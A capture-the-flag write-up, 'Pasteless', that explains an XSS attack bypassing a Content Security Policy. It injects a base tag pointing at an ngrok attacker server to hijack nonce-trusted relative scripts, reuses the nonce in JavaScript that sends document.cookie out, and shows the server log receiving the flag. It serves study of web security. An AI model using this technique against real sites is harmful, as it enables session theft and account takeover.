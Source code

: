 # Pasteless

It was pretty obvious that we had to perform an XSS here, but the Content Security Policy had to be bypassed.

```markup
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; 
    script-src 'self' 'nonce-2ac41eb7-a3d1-4f8b-a06d-369e439ff08f'; 
    img-src 'self' ext.captcha.yandex.net">
```

I noticed that near the bottom of the page, relative JavaScript paths are used.

```markup
<script nonce="2ac41eb7-a3d1-4f8b-a06d-369e439ff08f" src="/static/jquery.min.js" crossorigin="anonymous"></script>
<script nonce="2ac41eb7-a3d1-4f8b-a06d-369e439ff08f" src="/static/bootstrap.min.js" crossorigin="anonymous"></script>
<script nonce="2ac41eb7-a3d1-4f8b-a06d-369e439ff08f" src="/static/page.js" crossorigin="anonymous"></script>
```

We can make use of the `nonce` in these script tags - these scripts will always be executed, because the CSP allows them based on their `nonce`.&#x20;

If we change the base URI of the page to our own attacker server, then these relative paths will now load scripts from our server, which is otherwise not possible due to the CSP.

`<base href=//351b-42-60-216-15.ngrok.io>`

The relative paths are now URLs under our attacker server, so if we simply host a file `/static/page.js` and enable CORS on our server, then we could execute arbitrary JS through this file.

In order to exfiltrate data, we still need to bypass the CSP once again. This is much simpler, now that we know the `nonce`. We could simply create a new script element and add the appropriate `nonce` obtained from the rest of the script tags. The script source can then be set to the data we want to exfiltrate.

```javascript
let script = document.createElement('script');
script.nonce = document.querySelector('script').nonce
script.src = `/?cookie=${document.cookie}`

document.body.appendChild(script);
```

We should now be able to receive the flag on our attacker server.

```
[2022-02-12T16:15:22.094Z]  "GET /?cookie=ctf-flag=yactf{h7ml_tAgs_423_b3au71ful_whAt_cAn_Go_wROng}
```
